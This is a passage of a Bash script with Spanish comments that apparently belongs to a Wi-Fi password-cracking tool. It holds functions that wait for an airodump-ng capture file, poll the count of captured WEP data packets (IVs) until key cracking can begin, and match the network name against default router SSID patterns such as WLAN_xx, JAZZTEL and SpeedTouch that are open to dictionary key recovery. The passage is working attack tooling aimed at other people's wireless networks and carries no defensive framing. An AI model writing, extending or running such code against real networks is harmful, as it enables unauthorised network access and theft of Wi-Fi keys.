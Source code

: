 #ESPERA A QUE SE GENERE EL ARCHIVO .CSV PARA CONTINUAR
esperar_csv()
{
echo -en $cyan"Esperando a que se genere el archivo .CSV..."
let CONTADOR=1
ls $CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv > /dev/null 2>&1
while [ ! $? -eq 0 ]
do
	echo -e ""$cyan".\c"
	if [ "$WRT" = "" ]
	then
		sleep 0.2
	else
		sleep 1
	fi
	let CONTADOR=$CONTADOR+1
	if [ $CONTADOR -gt 15 ]
	then
		echo -en ""$cyan"\a\033[15D               \033[15D"
		let CONTADOR=1
	fi
	ls $CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv > /dev/null 2>&1
done
echo -e "$grisC\n"
}

#ESPERA A TENER SUFICIENTES "DATAs" PARA INICIAR LA BUSQUEDA DE LA CONTRASEÑA
detectar_ivs()
{
echo -e ""$cyan"Esperando a tener suficientes #Data..."$grisC""
echo
IVS=`cat ./$CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv | grep "WEP" | awk '{print $11}' FS=',' | sed 's/ //g'`
while [ "$IVS" = "" ]
do
	IVS=`cat ./$CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv | grep "WEP" | awk '{print $11}' FS=',' | sed 's/ //g'`
done
AIRODUMP_FUNCIONANDO=`ps $PARAMETRO_PS | grep airodump-ng | grep -v grep`
while [[ $IVS -lt 4 ]] && [[ "$AIRODUMP_FUNCIONANDO" != "" ]]
do
	sleep 1
	IVS=`cat ./$CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv | grep "WEP" | awk '{print $11}' FS=',' | sed 's/ //g'`
	AIRODUMP_FUNCIONANDO=`ps $PARAMETRO_PS | grep airodump-ng | grep -v grep`
done	
}

#COMPROBAR SI ES UNA RED VULNERABLE A LA BUSQUEDA POR DICCIONARIO
comprobar_posible_diccionario()
{
CARACTERES=`echo -n "$NOMBRE_AP" | wc -c` #GUARDAMOS EN ESTA VARIABLE EL NUMERO DE CARACTERES DEL NOMBRE DE LA RED
WLANxx=`echo "$NOMBRE_AP" | cut -c-5`
JAZZTELxx=`echo "$NOMBRE_AP" | cut -c-8`
WLANxxxxxx=`echo "$NOMBRE_AP" | cut -c-4`
WIFIxxxxxx=`echo "$NOMBRE_AP" | cut -c-4`
YACOMxxxxxx=`echo "$NOMBRE_AP" | cut -c-5`
NOMBRE_AP_SPEEDTOUCH=`echo "$NOMBRE_AP" | cut -c-10`
OCTETOS_SPEEDTOUCH=`echo -n "$NOMBRE_AP" | sed 's/SpeedTouch//'`
NOMBRE_AP_ONO=`echo $NOMBRE_AP | cut -c-3`
if [ "$WLANxx" = "WLAN_" ] && [ $CARACTERES -eq 7 ]
then
	echo -e ""$verdeC"Red WLAN_xx detectada..."$grisC""
